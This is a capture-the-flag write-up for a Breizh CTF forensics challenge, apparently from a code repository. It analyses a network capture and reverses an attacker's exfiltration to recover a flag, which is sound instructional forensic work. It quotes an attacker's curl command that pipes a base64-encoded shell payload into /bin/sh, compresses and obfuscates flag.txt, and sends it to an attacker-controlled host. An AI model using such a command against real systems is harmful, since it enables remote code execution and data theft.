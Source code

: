 # Breizh CTF - Write-up - Stolen

## Description

```
During an Attack/Defense CTF, we deployed network capture to intercept exploits used by other teams.
However, we lack expertise in network analysis.
Could you assist us in recovering the flag that was stolen from us?

Attachment : capture.pcap
Difficulty : Very Easy
```

## Resolution

For this challenge we have a pcap capture to analyse. Let's use wireshark to parse it.

![](./img/1.png)

There are many TCP requests which looks like an nmap command.

Basic thing to do is to filter with http requests because it's an easy challenge. 

![](./img/2.png)

There are some POST requests, interesing, we could follow the TCP flow to see the data transmited.

![](./img/3.png)

Looks like an RCE command on a web service, maybe the CTF A/D service.

This command is in parameter : 
```
curl -X POST -d test=$(echo "Y2F0IC4vZmxhZy50eHQgfCB4eiAtRiByYXcgLS1sem1hMSB8c2VkICJzL1x4MDBceDIxXHgxNlx4ODVceDEyXHg3Mi9ceDkwXHg5MFx4OTBceDkwXHg5MFx4OTAvZyIgfCBiYXNlNjQgfCB0ciAtZCAiXFxuIiB8IHRyIC1kICJcXHIi" | base64 -d | /bin/sh ) http://172.28.0.4:8000
```

The base64 is :
```
$ echo -n 'Y2F0IC4vZmxhZy50eHQgfCB4eiAtRiByYXcgLS1sem1hMSB8c2VkICJzL1x4MDBceDIxXHgxNlx4ODVceDEyXHg3Mi9ceDkwXHg5MFx4OTBceDkwXHg5MFx4OTAvZyIgfCBiYXNlNjQgfCB0ciAtZCAiXFxuIiB8IHRyIC1kICJcXHIi' | base64 -d

cat ./flag.txt | xz -F raw --lzma1 |sed "s/\x00\x21\x16\x85\x12\x72/\x90\x90\x90\x90\x90\x90/g" | base64 | tr -d "\\n" | tr -d "\\r"
```

We know what the attacker did, he execute a curl command on the remote service. This curl command send the content of the `flag.txt` file compressed in lzma and change some bytes with `"\x90"...`. The output command is send with the curl request on a remote server controlled by the attacker. 

We could view the content of the curl request with wireshark :

![](./img/4.png)

Here we see the python server of the attacker receive the content.
Now we just need to invert the command of the attacker :

```
$ echo 'kJCQkJCQd8fQujQTA7xvNhfLrvZSwGoO+/C6QMGuX2Nlsw66fnOYm4iokkG7//xUMAA=' | base64 -d | sed "s/\x90\x90\x90\x90\x90\x90/\x00\x21\x16\x85\x12\x72/g" | xz -F raw --lzma1 -d

BZHCTF{r34dy_70_pr073c7_y0ur_n37w0rk!}
```

Flag is : `BZHCTF{r34dy_70_pr073c7_y0ur_n37w0rk!}`